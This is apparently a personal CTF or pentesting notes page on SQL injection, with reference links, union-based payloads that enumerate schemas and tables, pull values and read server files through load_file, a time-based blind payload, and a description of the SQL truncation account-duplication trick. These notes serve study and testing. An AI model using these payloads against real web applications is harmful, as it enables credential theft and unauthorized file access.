 ## delete
# SQL INJECTION(SQLi)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md)
- [NetSPI](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)
- https://tib3rius.com/sqli
- portswigger
- https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/

dbfiddle.uk

We want to find credentials exploring possible DBs and tables. Another way is to read files.


## manual:

admin' or 1=1 LIMIT 1-- -


- `admin' union select 1;-- -`
- FIND ALL DBS:
  `admin' UNION SELECT group_concat(schema_name) FROM information_schema.schemata;-- -`
- FIND TABLES IN DB:
  `admin' UNION SELECT group_concat(table_name) FROM information_schema.tables where table_schema='november';-- -`
- FIND COLUMNS IN TABLE:
  `admin' UNION SELECT group_concat(table_name, ':', column_name) FROM INFORMATION_SCHEMA.columns WHERE table_schema='november';-- -`
- FIND VALUES:
  `admin' UNION SELECT group_concat(one) FROM flag;-- -`
- READ FILES:
  `admin' UNION SELECT load_file('/var/www/html/index.php');-- -`

## manual time based:
- FIND DB NUMBER OF CHARACTERS:
- `1%20OR%20IF(LENGTH((SELECT%20database()))=5,SLEEP(1),0)%23`


## SQL Truncation

SQL truncation is a flaw in the database configuration in which an input is truncated (deleted) when added to the database due to surpassing the maximum defined length. The database management system truncates any newly inserted values to fit the width of the designated column size.

So, where can we find this vulnerability ?? it can be found in any web application that allows users to sign up/register for new accounts.

If the database considers spaces as valid characters between inputs and doesn’t do any trimming before storing the values, an attacker can create a duplicate accounts of an existing user like ‘’admin’’ with many additional spaces and characters — ‘’admin++++++random’’ that are too long to be stored in the specified column and gets deleted after passing the max length.
